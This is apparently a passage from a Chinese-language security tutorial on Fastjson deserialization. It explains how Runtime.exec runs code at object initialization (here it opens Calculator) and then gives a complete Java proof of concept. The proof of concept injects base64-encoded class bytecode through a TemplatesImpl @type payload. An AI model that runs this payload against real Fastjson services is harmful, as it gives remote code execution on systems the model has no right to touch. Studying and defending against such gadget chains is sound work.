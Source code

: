 运行程序之后，同样的直接会打开电脑中的计算器。

恶意代码植入的核心就是在对象初始化阶段，直接会调用`Runtime.getRuntime().exec("open /Applications/Calculator.app/")`这个方法，通过运行时操作类直接执行恶意代码。

在来看看下面这个例子：

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;


public class POC {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "/target/classes/person/Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b',\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);

        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
